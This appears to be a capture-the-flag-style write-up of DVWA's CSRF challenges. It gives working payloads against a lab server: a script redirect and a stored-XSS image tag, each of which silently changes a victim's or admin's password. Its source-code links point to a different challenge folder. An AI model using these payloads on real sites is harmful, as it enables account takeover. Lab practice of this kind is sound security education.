 # Difficulty - Low

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/low.php)

Because there are no CSRF tokens this will be as simple as making the user to acces this `http://10.10.150.32/vulnerabilities/csrf/?password_new=NEW_PASS&password_conf=NEW_PASS&Change=Change#`

Like:
```html
<script>window.location="http://10.10.150.32/vulnerabilities/csrf/?password_new=NEW_PASS&password_conf=NEW_PASS&Change=Change#"; </script>
```

# Difficulty - Medium

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/medium.php)

This time the Referer is checked. So the request shoud came from this website.
We try an XSS (Stored) attack.

In the `XSS Stored` section we do the following:

Change the `size` and `maxlength` values for the `Name` input field (from browser) with big values(=1000).
We post `<img src="http://10.10.150.32/vulnerabilities/csrf/?password_new=NEW_PASS&password_conf=NEW_PASS&Change=Change#">` as `Name` and whatever as `Message`.
We sign and now, whenever the user `admin` visits this page his password will change.


# Difficulty - High

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/high.php)

For this challange I wrote this JS script: [test.js](https://github.com/PnzJust/DVWA-v1.10-Write-up/blob/main/CSRF/test.js).


# Difficulty - Impossible

[Challange source code](https://github.com/PnzJust/DVWA-v1.10/blob/main/CSP%20Bypass/Sources/impossible.php)
